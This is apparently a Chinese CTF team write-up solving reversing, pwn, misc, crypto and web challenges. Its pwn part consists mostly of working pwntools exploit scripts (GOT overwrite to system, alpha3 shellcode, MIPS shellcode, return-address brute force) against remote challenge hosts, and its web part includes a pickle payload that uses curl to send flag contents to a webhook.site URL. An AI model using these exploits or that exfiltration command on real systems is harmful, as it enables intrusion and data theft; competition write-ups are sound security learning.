  
可以看到把矩阵所有非零位置都用 `getchar() - 48`读进来，并偷偷加到一个局部变量上，然后进`verify()`

IDA对`verify()`的伪代码不是很友好，用snowman或者直接看CFG会好一些，可以看出来是验证行 列 3*3 小矩阵的数独是否合法。  
  


秒杀解法：  
发现这是个数独，而生成md5的输入并不是数度矩阵而是矩阵的和  
  

所以不用解数独直接求 $9*(1+2+3+4+5+6+7+8+9)=405$，把405的md5 `bbcbff5c1f1ded46c25d28119a85c6c2`填进去就可以了  

正常解法：  

双击matrix选中到最后按shift+e导出之后
  

可以在线解一下，http://www.gpiano.com/ （还有好多在线工具：
  

得到路径：`468912723481342575971422657913948591537428763345261`  
没有在线环境的话，本地去重搓个暴力求解器也很快的（  

  

丢进去就可以拿到flag  

其他解法：  
线性约束，丢给Z3或者angr也能解，这里就不试了。  


## Pwn
### easy_LzhiFTP_CHELL
开局一个格式化字符串，刚好够拿到一个地址  
编辑时候可以负向越界到上边的文件名bss  
然后再编辑内容时候就会作为指针修改，可以修改free_got为system_plt  
```python
from pwn import *

elf = ELF('easy_LzhiFTP')
free_got = elf.got['free']
system_plt = elf.plt['system']

# context.log_level = 'debug'
# p = process('easy_LzhiFTP')
p = remote("39.106.65.236", 38987)
p.sendafter(b'name', b'x')
p.sendafter(b'word', b'r')
p.sendafter(b'(yes/No)', f'No%19$p'.encode())
_ = p.recvuntil(b'No')
leak_base = int(p.recvline().strip(), 16) - 0x1d29
print(hex(leak_base))

p.sendlineafter(b'> ', b'touch ' + p64(free_got + leak_base)[:-1])
p.sendafter(b'Context:', b'***')

p.sendlineafter(b'> ', b'edit')
# gdb.attach(p)
p.sendafter(b'idx:', b'-16')
p.sendafter(b'Content: ', p64(system_plt + leak_base))

p.sendlineafter(b'> ', b'touch /bin/sh')
p.sendafter(b'Context:', b'/bin/sh')
p.sendlineafter(b'> ', b'del')
p.sendafter(b'idx:', b'1')
p.interactive()
```

### babygame
预测随机数可以搞一堆钱，然后可以把字符长度拉满  
使用道具刚好够探到返回地址，可以完整覆盖  
提前多次布局好栈上变量（悬垂）然后一次覆盖完成ret2sc  
sc在格式化字符串的地方，因为格式化字符串在bss上所以不太有用，就只存sc了 
sc用alpha3编码   
```python
from pwn import *
from ctypes import CDLL

# p = process("./pwn")
p = remote("47.94.224.3", 16637)
context.log_level = 'debug'
p.sendlineafter(b">> ", b"1")
p.sendlineafter(b"level : ", b"4")
for _ in range(50):
    libc = CDLL('/lib/x86_64-linux-gnu/libm.so.6')
    libc.srand(libc.time())
    r = ""
    for i in range(4):
        r += "abcdefghijklmnopqrstuvwxyzA"[libc.rand() % 26]
    p.sendlineafter(b"Give me : ", r.encode())
    if b'MD5' not in p.recvline():
        p.sendlineafter(b">> ", b"1")
        p.sendlineafter(b"level : ", b"4")

p.sendlineafter(b"Give me : ", b'f**k you')
p.sendlineafter(b">> ", b"2")
p.sendlineafter(b">> ", b"2")
p.sendlineafter(b"need :", b"512")


def fmt_str(fmt):
    p.sendlineafter(b">> ", b"2")
    p.sendlineafter(b">> ", b"1")
    p.sendlineafter(b"you want to purchase", fmt)

    p.sendlineafter(b">> ", b"2")
    p.sendlineafter(b">> ", b"4")
    return p.recvuntil(b"Backpack size ")[1:-len(b"Backpack size ")]


sh = b"Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t" \
     b"0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t"

p.sendlineafter(b">> ", b"2")
p.sendlineafter(b">> ", b"1")
payload = b'B???' + b'D0?1' + b'D0?3' + b'D0?4' + b'D0?5' + b'D0?6' + b'D0?7' \
          + b'A0?2' + b'D0?2' + b'A0?g' + b'D0?0' + b'Co?0'
p.sendlineafter(b"you want to purchase", payload + sh)

p.sendlineafter(b">> ", b"2")
p.sendlineafter(b">> ", b"3")
p.interactive()
p.close()
```

### sigin_shellcode
没起mips环境，用中国剩余定理&z3解了下第一个随机数是47429，然后下100层刚好够买满道具  
sc长度只有四个指令，MIPS是定长所以还比较好改，后两条固定是  
`li $v0, 4011`  
`syscall 0x40404`  
前两条用于清空 $a1 和 $a2，然后第一条是`li $a1, 0x0`，第二条是板子上清空 a2的避免空字节，因为是小端所以第一条刚好截断黑名单，带上程序里已经初始化到 a0 的 `/bin/sh` 就可以了  
```python
from pwn import *

context.log_level = 'debug'
rand = 47429

p = remote("47.94.224.3", 26185)

for i in range(99):
    print(i, end=" ")
    p.sendlineafter(b'Go> ', b'1')
    p.sendlineafter(b'you want?\n', str(47429 % (i + 1)).encode())

p.sendlineafter(b'Go> ', b'3')
p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'Go> ', b'3')
p.sendlineafter(b'> ', b'2')

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'you want?\n', b'29')

sc = b"\xff\xff\x06\x28" + \
     b"\xab\x0f\x02\x24" + \
     b"\x0c\x01\x01\x01"
p.sendlineafter(b'> ', b"\x00\x00\x05\x28" + sc)
p.sendline(b'ls')
p.sendline(b'cat flag')
p.interactive()
```

### three-body (未解出)
2.35，哈人，蹲神仙wp  

### babyaul   (未解出)
lua的菜单，炫酷，润了（）  

### p2048 （命题） 
是frank出的题，同样贴一下出题时候的wp：  

炫酷的2048小游戏  
  


游戏的逻辑是玩出2048给shell：  
  

玩到2048也是可以的。  

game有一处溢出，可以控制返回地址

  

看起来保护全开，但仔细看game并没有canary（上图）：
  

而game是main调用的，高地址放的是main的真实地址，因为页0x1000对齐，低12位不会被随机化，所以只需要爆破4位（约1/16）的概率就可以跳到程序的任何地方：  

  

这里直接跳到win

```python
from pwn import *

for _ in range(64):
    p=remote("xx", xxxx)
    p.send(b'a' * (0x418+4) + b'\xbd\x0eqy')
    try:
        p.sendline(b'echo pwned!\ncat /flag\n' * 10)
        p.recvuntil(b'pwned!\n')
        p.interactive()
    except:
        p.close()
```

## Misc
### 58与64 (未解出)
连起来，全部字符都在58的表里，与64猜测是and操作？没做出来  

### happy2forensics （未解出）
提示里TCP 20->80可以摸到BitLocker的恢复密钥   

导出secret.rar，解压出来的文件是一个加密的vhd，挂载后用恢复密钥解密  
删除的文件里有加密的压缩包  
根目录下的图片拼出来没东西，一个5MB的图片实际是另一个镜像，FTK挂载后继续拼可以摸到压缩包的密码
解压是flag的后半部分（前半部分呢，不会了）  

### sudo
CVE-2023-22809，没有vim改nano读flag

### 盲人隐藏了起来
34是从12里剪的，去掉两个ee直接粘进12里就能看视频看到密码  
解压出的图片末尾有key，是wbs的？ zsteg -a一把直接出了，不用密码  

### piphack
空格就可以绕过黑名单限制  
pip的目标可以直接给压缩包的url，不用上传到源   
然后随便写一个反弹shell或者打webhook的包（怎么回显啊，不会，反弹好了）就可以了  

### wordle
签到题，（玩）  

## Crypyo
### ecdsa (未解出)
k高位重复 蹲题解

### Cisticola (未解出)

### stream (未解出)

### checkin
二项定理模掉高阶项， 就有前半段了   
后半段先解一个佩尔方程，然后一元二次方程。  
```python
import gmpy2
from gmpy2 import *

n = ...
enc1 = ...
enc2 = ...

x = 87897747594260774254246835664214545379849
y = 2629972211566463612149241455626172190220
ax = y * n
c = -2 * (enc2 - 2)

gmpy2.get_context().precision = 1000
a = ax * ax
b = (2 * ax - ax * ax)
solve = -b + int(sqrt(b * b - 4 * a * c))
solve = solve // (2 * a)
print(bytes.fromhex(hex((enc1 - 1) // (233 * n ** 2))[2:]) + bytes.fromhex(hex(solve)[2:]))
```

### magic_dlp (未解出)

### backdoor  
把ECDH里边的部分手动算出来就有私钥了... 

  

## Web （要爆0了，太好玩了）
### phpstudy (未解出)
可以绕过摸到登录面板，似乎前台有个1click的点但是没密码，试了下好像也没adminbot，蹲题解  
### easypy
扫到download，但是没有源码，pycdc逆一下是指定路由的pickle 
i绕R指令 
```python
import base64

pickle_payload = b'''\x80\x03(S'curl https://webhook.site/9380b723-dc74-4b8c-b39a-b60d7f0ebcdc/?a=`cat /f* | base64`'
ios
system
.'''
print(base64.b64encode(pickle_payload))
``` 
### call (未解出)
### php_again (未解出)
软连接可以做到任意文件读，但按题意好像要做到任意文件写，可目录又不在一个地方，蹲题解（）  
### ez_rust 
好像什么都没过滤？  
`curl http://39.106.131.193:35800/./flag --path-as-is`

### qqcms (未解出)
和官网diff了一下发现除了config完全一致，虽然是小cms但是拿0day出题还是好炫酷，准备直接蹲题解  